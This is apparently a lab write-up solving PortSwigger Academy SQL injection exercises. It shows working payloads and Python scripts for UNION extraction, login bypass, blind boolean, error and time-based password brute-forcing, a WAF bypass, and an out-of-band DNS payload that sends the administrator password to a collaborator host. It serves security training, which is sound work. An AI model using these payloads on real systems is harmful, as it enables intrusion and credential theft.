










# Portswigger Labs

This contains all the writeups for the SQL Injection labs from PortSwigger Academy, from easy to hard.

## Lab 1: WHERE Clause

To solve lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

When viewing products, can see that `productId` is set depending on the website used:



Sending a `'` character results in an "Invalid Product ID" message, meaning SQL Injection works.



Based on the website's clues, there is a `category` variable that is vulnerable. Setting it to `' OR 1=1--` would cause the query to return everything and solve the lab.

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=<cookie>'
}
# category=Clothing%2c+shoes+and+accessories
params = {
	'category':"' OR 1=1--"
}

url = 'https://0ae800b7048f2954827b2546006600eb.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
print(r.text)
```

## Lab 2: Login Bypass

Gotta login as the `administrator` user. There's a login page:



Reading the requests, there's a `csrf` token sent, preventing me from scripting this aspect.

To bypass this, use `administrator:' OR 1=1-- -` to login.

## Lab 3 & 4: Query DB

### Oracle

To retrieve results from an Oracle DB, namely the database type and version. Since I have to retrieve multiple things, use `UNION` injection.

Setting `category` to `'` causes an Internal Server Error to be returned.

First, determine the number of columns. There's a universal table called `dual` to use. The query below returns no errors:

```sql
' UNION SELECT NULL,NULL FROM DUAL--
```

Then, to determine which column returns text values, so we can do this:

```sql
' UNION SELECT 'col1', 'col2' FROM DUAL--
```

The above shows `col1` is part of the returned data. Thus, the 'first' part of the query has 2 columns, and the 1st one returns text.

For UNION Injection, the right and left queries must have the same number of columns, and thus I can craft the final payload and script:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=cookie'
}
# category=Clothing%2c+shoes+and+accessories
params = {
	'category':"' UNION SELECT banner,NULL FROM v$version--"
}

url = 'https://0a190067032531e480ea1c4800a30002.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
	sys.exit(1)
else:
	#if re.search(r"col1",r.text):
	#	print("Col1")
	#elif re.search(r"col2",r.text):
	#	print("Col2")
	print(r.text)
```

### MySQL and MSSQL

Same thing as above, just for MySQL.

```sql
' UNION SELECT @@version,NULL -- -
```

## Lab 5 & 6: Listing DB Contents

### Non-Oracle

To solve, login as `administrator` user via UNION injection. Testing reveals there are 2 columns, with first column returning text.

Firstly, I found out that it was PostgreSQL through testing `@@version` and `version()`, with the latter returning a positive result.

From this, can grab all the tables.

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```

Lots of tables, but the `pg_user` table looks interesting. I then extracted column names:

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'-- -
```



Pretty obvious what to do next. However, the stuff I wanted was not there. Turns out, there's another table `users_eorcco`.

Columns: `password_robfjs`, `username_mcgiwx`. Then, use `concat` to combine them into one column with UNION.

```sql
' UNION SELECT concat(password_robfjs,username_mcgiwx),NULL from users_eorcco--
```

Returns `q34iaupfbt8slh249km3administrator`, which we can use to login!

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=cookie'
}
# category=Clothing%2c+shoes+and+accessories
params = {
	'category':"' UNION SELECT concat(password_robfjs,username_mcgiwx),NULL from users_eorcco--"
}

url = 'https://0a6e00e404adae4c80db495b00f70074.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
	sys.exit(1)
else:
	if re.search(r"col1",r.text):
		print("Col1")
	elif re.search(r"col2",r.text):
		print("Col2")
	print(r.text)
	
```

### Oracle

Same thing, just with Oracle. Query all table names:

```sql
' UNION SELECT table_name,NULL from all_tables--
```

`USERS_DIXUMS` is a table that I can further enumerate. Contains `PASSWORD_FLUVSR` and `USERNAME_EPPXYE` columns. Can then combine them into one query.

```sql
' UNION SELECT concat(USERNAME_EPPXYE,PASSWORD_FLUVSR), NULL FROM USERS_DIXUMS--
```

Same exploit script as above.

## Lab 7: Determine number of columns returned.

Just add more nulls as required:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':'session=cookie'
}
no_col = 0
null_char = "NULL,"
while True:

	# category=Clothing%2c+shoes+and+accessories
	params = {
		'category':"' UNION SELECT " + (null_char * no_col) + "NULL-- -"
	}
	print(params)

	url = 'https://0a6d00cf030c9001863fc6cd00b30047.web-security-academy.net/filter'
	s = requests.Session()

	r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
	if re.search(r"Internal Server Error", r.text):
		print("Query failed")
	else:
		print(f"There are {no_col + 1} columns.")
		break
	no_col += 1
```

## Lab 8: Find column containing text

To solve, make database retrieve some custom string.

Firstly, can brute force the number of columns using the script above, and find that there are 3 columns.

Afterwards, check which column returns data, and it's column 2:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a2100b603c3041f8115f7a0003900e9'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':f'session={COOKIE}'
}

params = {
	'category':"' UNION SELECT NULL,'sSOWRB',NULL-- -"
}

url = f'https://{HOST}.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
else:
	if re.search(r"sSOWRB", r.text):
		print('solved')
	else:
		print("error")	
```

## Lab 9: Retrieve data from other tables

To solve: Login as `administrator`.

There are 2 columns within this database. Then, test that the first column is the one that returns data. After that, test with `@@version` and `version()`, confirm that it is PostgreSQL running.

Find table name via `table_name FROM information_schema.tables`, then `CONCAT(username,password) FROM users`.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a580074047c324981271bc900650056'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':f'session={COOKIE}'
}

params = {
	'category':"' UNION SELECT concat(username,password),NULL FROM users--"
}
url = f'https://{HOST}.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
else:
	print(r.text)
```

## Lab 10: Retrieve values in a single column

Same as lab 9, just use the second column to return data instead.

## Lab 11: Blind SQLI with Conditional Responses

This lab has a tracking cookie which makes it different from the other labs. When adding a `'` character to the cookie, it shortens the response, as the `Welcome back!` message is no longer printed.



From this, I could create a template script to use:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
payload = ""
cookies = {
	'session': f'{COOKIE}',
	'TrackingId':'mAtlrZn449A7Xotk' + payload
}

url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()

r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
if re.search(r"Welcome back!", r.text):
	print("True")
else:
	print("False")
```

Testing this with `1=2` and `1=1` returns the correct result. Then, I tried to enumerate the type of database via `substring` brute force of `@@version` and `version()`:

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()

for j in string.printable[:-10]:
	payload = f"' AND substring(version(), 1, 1) = '{j}'--"
	cookies = {
		'session': f'{COOKIE}',
		'TrackingId':'mAtlrZn449A7Xotk' + payload
	}
	print(payload)
	r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
	if re.search(r"Welcome back!", r.text):
		print("True")
		break
	else:
		pass
```

The above returned True for the character 'P', confirming this is PostgreSQL. Afterwards, I added a loop to make it brute force everything:

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
while True:
	done = True
	for j in string.printable[:-10]:
		payload = f"' AND substring(version(),{i},1) = '{j}'--"
		cookies = {
			'session': f'{COOKIE}',
			'TrackingId':'mAtlrZn449A7Xotk' + payload
		}
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if re.search(r"Welcome back!", r.text):
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```

This works in brute-forcing the database version, albeit a little slow. Anyways, from this I can brute force the stuff within the `users` table. The structure is given to us already, so here's the final script:

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
all_chars = string.ascii_lowercase + string.digits
while True:
	done = True
	for j in all_chars:
		#payload = f"' AND substring(version(),{i},1) = '{j}'--"
		payload = f"' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username ='administrator') = '{j}'--"

		cookies = {
			'session': f'{COOKIE}',
			'TrackingId':'mAtlrZn449A7Xotk' + payload
		}
		# print(payload)
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if re.search(r"Welcome back!", r.text):
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```

## Lab 12: Blind SQLI with Conditional Errors

This is the same as above, just that queries that have errors result in `r.status_code == 500`.

Firstly, test the type of database by enumerating the version, and I found that this didn't function with `@@version` nor `version()`, meaning that it is an Oracle database.

Can use UNION injection to do this based on the cheatsheet given by Portswigger.

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aaf00570425dff981573eec00f80002'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
all_chars = string.ascii_lowercase + string.digits
while True:
	done = True
	for j in all_chars:
		payload = f"' UNION SELECT CASE WHEN (username='administrator' AND SUBSTR(password,{i},1) = '{j}') THEN to_char(1/0) ELSE NULL END FROM users--"
		cookies = {
			'session': f'{COOKIE}',
			'TrackingId':'rrlrgzRhkR73W0IX' + payload
		}
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if r.status_code == 500:
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```

## Lab 13: Visible error-based SQLI

Same as above, but this time if there is an error in the query, it returns a 500, and also prints out the entire query:



So for this case, we have to force visible error messages. Using `1=1` and `1=2` result in the same 200 being returned. I took a look at the 'Visible Error Messages' section of Portswigger's SQL cheatsheet.

Did some testing with each payload, and found that MSSQL was returning good results:



This is the payload used:

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

So, the website only displays error messages, and in this case, it forces an error by casting a `string` type (from the `SELECT username` portion) as an integer, and equating it to 1.

This obviously won't work, and it will print the string we want out. Getting the password is trivial from here.

## Lab 14: Trigger Time Delay

To solve this lab, trigger a 10s delay. This lab doesn't show me any errors or whatever.

In this case, I tested with multiple different payloads for different databases, and found that this one works:

```sql
x';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Pretty self-explanatory.

## Lab 15: Time Based Blind SQLI

This is the same thing as above, just that now I have to extract the password of `administrator`.

Firstly, I tested the type of database that this was running on, and found that the above payload for PostgreSQL works.

Next, using the same template script I've created, replace the true condition with `elapsed.total_seconds() > 2`, since I used `pg_sleep(2)`.

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a8b00780357dec5803b08c500870056'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
all_chars = string.ascii_lowercase + string.digits
while True:
	done = True
	for j in all_chars:
		payload = f"x'%3B SELECT CASE WHEN SUBSTRING(password,{i},1)='{j}' THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--"
		cookies = {
			'session': f'{COOKIE}',
			'TrackingId': payload
		}
		r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
		if r.elapsed.total_seconds() > 2:
			sys.stdout.write(j)
			sys.stdout.flush()
			i += 1
			done = False
			break
		else:
			continue
	if done:
		break
```

This would eventually return the password.

## Lab 16: Out-of-Band Interaction

To solve, trigger a DNS lookup via SQL Injection. One is supposed to use Burp Collaborator to solve this. To solve this, I just tested each payload from the DNS lookup portion of their cheatsheet.

The Oracle one works:

```sql
x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http%3a//BURP.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

URL encode the above and you're good to go.

## Lab 17: Exfiltration via DNS

For this, the goal is to append a query to the out of band interaction.

```sql
x'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.615o0m1p833w26rpy91d61u5jwpnde13.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--
```

When collaborator is checked, the password is revealed:



## Lab 18: Filter Bypass via XML Encoding

When checking stock on this site, the page sends the request in XML.

```
POST /product/stock HTTP/2

<TRUNCATED>

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>3</storeId></stockCheck>
```

Any attempts to do SQLI on this results in the WAF detecting the attack:



First, I constructed the query I wanted:

```sql
1 UNION Select username, password FROM users--
```

Using Hackvertor just added some XML encoding for me:

```
<@dec_entities>1 UNION Select username, password FROM users--<@/dec_entities>
```

Sending the above works! The WAF will be bypassed:

!\[]\(../../.gitbook/assets/sq l-injection-portswigger-writeup-image-9.png)

To get the stuff I want out, can concatenate the strings using `||`

```sql
<@dec_entities>1 UNION Select username || password FROM users<@/dec_entities>
```

This payload works when injected into the `storeId` tag:


